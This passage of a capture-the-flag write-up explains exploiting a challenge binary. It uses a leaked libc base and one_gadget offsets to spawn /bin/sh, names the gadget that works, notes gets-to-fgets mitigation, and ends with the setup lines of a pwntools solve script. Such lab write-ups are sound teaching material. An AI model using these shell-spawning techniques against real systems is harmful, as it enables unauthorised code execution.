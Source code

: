 # 4. Exploitation<a name="exploitation"></a>
Only knowing the randomized libc base address is already enough to get a shell, as we can just pop a shell via a [OneGadget](https://github.com/david942j/one_gadget).
This tool is absolutely great.
By executing it like `one_gadget libc.so.6` we get the offsets of potentially useful onegadgets which can be exploited to pop a shell without any ROP:

```bash
0x4f29e execve("/bin/sh", rsp+0x40, environ)
constraints:
  address rsp+0x50 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, "-c", r12, NULL} is a valid argv

0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  address rsp+0x50 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, r12, NULL} is a valid argv

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL || {[rsp+0x40], [rsp+0x48], [rsp+0x50], [rsp+0x58], ...} is a valid argv

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
```

As these onegadgets got some requirements to work, we can easily just try out everyone of these. The one with libc offset `0x4f2a5` will work for us.
After determining the offset to the return address e.g. by using the `cyclic` command in `gdb` we can construct our payload and eventually pop our shell.

# 5. Mitigation<a name="mitigation"></a>
The vulnerabilities can be easily mitigated by not intentionally leaking some addresses and moreover using some safe alternatives for `gets` like `fgets`.

# 6. Solve script<a name="solve script"></a>
```python
#!/usr/bin/env python3
from string import Template
import glob
from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.log_level = 'debug'

# must be dict
ENV_VARS = None

gdbscript = """
# breakrva 0x1ab5
break *gets
continue
"""

```